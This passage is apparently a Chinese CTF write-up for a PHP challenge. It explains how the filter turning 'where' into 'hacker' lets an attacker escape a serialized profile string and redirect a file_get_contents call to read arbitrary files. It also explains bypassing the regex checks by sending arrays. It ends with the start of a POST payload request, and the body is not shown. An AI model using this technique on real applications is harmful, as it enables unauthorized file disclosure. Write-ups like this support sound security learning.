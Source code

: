 ```php
$user->update_profile($username, serialize($profile));
```



这三个东西碰到一起后会发现神奇的事情

fileter将`where`替换为`hacker`后,会溢出一个字符,而where是在反序列化里的

`s:6:"where""`=>`s:6:"hacker""`这样就可以成功逃逸出序列化,修改序列化的内容

继续跟踪profile发现`$photo  = base64_encode(file_get_contents($profile['photo']));`

这样我们就可以任意读取文件了

还有一个小问题需要解决


```php

if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

		$username = $_SESSION['username'];
		if(!preg_match('/^\d{11}$/', $_POST['phone']))
			die('Invalid phone');

		if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
			die('Invalid email');
		
		if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
			die('Invalid nickname');

		$file = $_FILES['photo'];
		if($file['size'] < 5 or $file['size'] > 1000000)
			die('Photo size error');

		move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
		$profile['phone'] = $_POST['phone'];
		$profile['email'] = $_POST['email'];
		$profile['nickname'] = $_POST['nickname'];
		$profile['photo'] = 'upload/' . md5($file['name']);

		$user->update_profile($username, serialize($profile));
		echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
	}

```



这里对输入内容都有正则过滤,但是如果我们传入数组就可以绕过正则匹配

最后的payload:

```
POST /update.php HTTP/1.1
Host: 6c42e2f6-f6cf-40c9-a1bf-ef7c57418b22.node3.buuoj.cn
Content-Length: 711
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Origin: http://6c42e2f6-f6cf-40c9-a1bf-ef7c57418b22.node3.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj2Bi57wuJTQvgVXE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://6c42e2f6-f6cf-40c9-a1bf-ef7c57418b22.node3.buuoj.cn/update.php
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```